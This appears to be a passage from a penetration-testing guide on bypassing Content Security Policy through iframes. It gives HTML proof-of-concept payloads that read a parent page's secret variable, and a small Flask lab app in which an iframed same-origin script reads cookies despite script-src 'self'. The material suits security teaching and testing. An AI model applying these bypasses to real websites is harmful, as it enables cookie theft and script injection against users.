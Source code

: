 ### Iframes with CSP <a href="#iframes_with_csp_40" id="iframes_with_csp_40"></a>

{% hint style="info" %}
Please, note how in the following bypasses the response to the iframed page doesn't contain any CSP header that prevents JS execution.
{% endhint %}

The `self` value of `script-src` won’t allow the execution of the JS code using the `data:` protocol or the `srcdoc` attribute.\
However, even the `none` value of the CSP will allow the execution of the iframes that put a URL (complete or just the path) in the `src` attribute.\
Therefore it’s possible to bypass the CSP of a page with:

```html
<html>
<head>
 <meta http-equiv="Content-Security-Policy" content="script-src 'sha256-iF/bMbiFXal+AAl9tF8N6+KagNWdMlnhLqWkjAocLsk='">
</head>
  <script>
  var secret = "31337s3cr37t";
  </script>
  <iframe id="if1" src="child.html"></iframe>
  <iframe id="if2" src="http://127.0.1.1:8000/child.html"></iframe>
  <iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
  <iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>
</html>
```

Note how the **previous CSP only permits the execution of the inline script**.\
However, **only `if1` and `if2` scripts are going to be executed but only `if1` will be able to access the parent secret**.

![](<../../.gitbook/assets/image (627) (1) (1).png>)

Therefore, it’s possible to **bypass a CSP if you can upload a JS file to the server and load it via iframe even with `script-src 'none'`**. This can **potentially be also done abusing a same-site JSONP endpoint**.

You can test this with the following scenario were a cookie is stolen even with `script-src 'none'`. Just run the application and access it with your browser:

```python
import flask
from flask import Flask
app = Flask(__name__)

@app.route("/")
def index():
    resp = flask.Response('<html><iframe id="if1" src="cookie_s.html"></iframe></html>')
    resp.headers['Content-Security-Policy'] = "script-src 'self'"
    resp.headers['Set-Cookie'] = 'secret=THISISMYSECRET'
    return resp

@app.route("/cookie_s.html")
def cookie_s():
    return "<script>alert(document.cookie)</script>"
```
